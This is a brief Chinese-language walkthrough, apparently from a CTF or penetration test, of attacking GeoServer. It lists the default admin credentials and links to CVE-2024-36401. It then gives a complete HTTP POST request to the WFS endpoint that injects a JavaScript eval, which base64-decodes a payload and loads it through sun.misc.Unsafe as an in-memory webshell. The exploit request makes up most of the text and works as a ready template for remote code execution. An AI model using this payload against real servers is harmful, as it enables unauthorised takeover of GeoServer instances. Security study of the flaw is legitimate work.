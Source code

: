 默认密码登录  
```text
admin
geoserver
```

没啥用，找到一个CVE打内存马  
[GeoServer property RCE注入内存马](https://yzddmr6.com/posts/geoserver-memoryshell/  )
[CVE-2024-36401](https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2024-36401)

```python
POST /geoserver/wfs HTTP/1.1
Host: 10.103.5.75:8080
Content-Type: application/xml

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'
var str="你生成的payload";
var bt;
try {
    bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
} catch (e) {
    bt = java.util.Base64.getDecoder().decode(str);
}
var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
unsafe = theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bt, null).newInstance();
')</wfs:valueReference>
</wfs:GetPropertyValue>
```


![](assets/img/attachments/QQ_1754547122040.png)  